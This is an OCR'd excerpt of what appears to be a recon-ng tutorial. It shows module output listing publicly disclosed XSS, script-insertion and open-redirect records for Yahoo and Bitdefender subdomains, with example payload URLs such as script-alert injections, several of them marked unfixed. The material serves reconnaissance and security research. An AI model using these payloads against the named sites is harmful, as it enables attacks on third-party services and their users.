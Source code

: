 ``` plain
[*] Category: XSS
[*] Example: http://us.yimg.vip.scd.yahoo.com/us.yimg.com/a/ya/yahoo_mail/ninja8b_nooffer.swf?clickTAG=javascript<br>:alert(/412/)
[*] Host: us.yimg.vip.scd.yahoo.com
[*] Publish_Date: 2012-02-16 00:00:00
[*] Reference: http://xssed.com/mirror/57596/
[*] Status: fixed
--------------------------------------------------
[*] Category: Script Insertion
[*] Example: http://fr.groups.yahoo.com/search?query=%3Cscript%3Ealert(String.fromCharCode(88%2C83%2C83))%3C%2Fsc<br>ript%3E&sort=relevance
[*] Host: fr.groups.yahoo.com
[*] Publish_Date: 2011-12-22 00:00:00
[*] Reference: http://xssed.com/mirror/61982/
[*] Status: unfixed
--------------------------------------------------
[*] Category: XSS
[*] Example: http://basketball.fantasysports.yahoo.com/nba/playerranker?lid=<script>alert(/XSS-by-[]0iZy5/)</scri<br>pt>
[*] Host: basketball.fantasysports.yahoo.com
[*] Publish_Date: 2011-12-21 00:00:00
[*] Reference: http://xssed.com/mirror/71051/
[*] Status: unfixed
--------------------------------------------------
[*] Category: Redirect
[*] Example: http://www.yahoo.com/SIG=15ohh3h62/M=722732.13975606.14062129.13194555/D=regst/S=150002347:R2/Y=YAHO<br>O/EXP=1275539597/L=hnNys0Kjqbp5Cok8Sr10cAJDTPYa3UwHFG0AANhn/B=VSDoPmKJiUs-/J=1275532397077354/K=rS6p<br>wy3MN2NPP7SBqBCOAQ/A=6097785/R=0/SIG=11o4aqdmv/*http://xssed.com/newsearch/searchpad.html
[*] Host: www.yahoo.com
[*] Publish_Date: 2011-12-21 00:00:00
[*] Reference: http://xssed.com/mirror/67076/
[*] Status: unfixed
--------------------------------------------------
[snip]
```

- XSSposed Domain Lookup - Checks XSSposed.com for XSS records associated with a domain

Another good module for hunting down XSS

``` plain
[recon-ng][default][xssposed] > run

---------------
BITDEFENDER.COM
---------------
[*] Category: REDIRECT
[*] Example: https://safeweb.norton.com/report/show?url=store.bitdefender.com
[*] Host: store.bitdefender.com
[*] Publish_Date: 2016-06-20 21:09:16
[*] Reference: https://www.openbugbounty.org/incidents/160213/
[*] Status: unfixed
--------------------------------------------------
[*] Category: XSS
[*] Example: https://labs.bitdefender.com/wp-includes/js/mediaelement/flashmediaelement.swf?jsinitfunctio%gn=alert`OPENBUGBOUNTY`
[*] Host: labs.bitdefender.com
[*] Publish_Date: 2016-05-17 20:31:25
[*] Reference: https://www.openbugbounty.org/incidents/154457/
[*] Status: fixed
--------------------------------------------------
[*] Category: XSS
```